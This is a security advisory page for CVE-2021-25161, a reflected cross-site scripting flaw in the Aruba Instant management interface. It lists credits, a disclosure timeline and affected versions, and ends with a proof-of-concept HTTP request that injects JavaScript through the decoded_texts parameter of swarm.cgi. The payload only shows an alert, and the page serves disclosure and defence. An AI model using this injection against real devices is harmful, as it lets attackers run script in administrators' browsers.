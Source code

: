 ```yaml
---
layout: vuln
credit: 
    - Gr33nh4t
    - waveburst
timeline:
    - type: 'report'
      date: '2020-11-22'
    - type: 'cve-assign'
      date: '2021-02-03'
    - type: 'patch'
      date: '2021-03-09'
    - type: 'release'
      date: '2021-03-09'
product:
     - ' - Aruba Instant'

vulnerable:
     - ' - Aruba Instant 6.4.x: 6.4.4.8-4.2.4.17 and below'
     - ' - Aruba Instant 6.5.x: 6.5.4.18 and below'
     - ' - Aruba Instant 8.3.x: 8.3.0.14 and below'
     - ' - Aruba Instant 8.5.x: 8.5.0.11 and below'
     - ' - Aruba Instant 8.6.x: 8.6.0.7 and below'
     - ' - Aruba Instant 8.7.x: 8.7.1.1 and below'


severity: 'moderate'
alephid: ALEPH-2021009
cve: CVE-2021-25161
date: '2021-03-09'
references:
    - src: 'Aruba Instant (IAP) Multiple Vulnerabilities'
      url: 'https://www.arubanetworks.com/assets/alert/ARUBA-PSA-2021-007.txt'
  
title: 'Authenticated Reflected Cross-Site Scripting (cp_perview)'

---
```

There is an authenticated reflected XSS in the management interface of Aruba Instant that can allow an unauthenticated attacker to trick a user of the interface and execute javascript on his browser.

## POC:
```
GET /swarm.cgi?opcode=cp_preview&bg_color=AA&banner_color=B&banner_text=AAA&terms_of_use=AAA&use_policy=BBB&authenticated=False&decoded_texts=';%0Aalert("Test");//&sid=XXXXXXXXXXXXXXXXXXXX HTTP/1.1
Host: IP:4343
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https:// IP:4343/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: sid=XXXXXXXXXXXXXXXXXXXX
```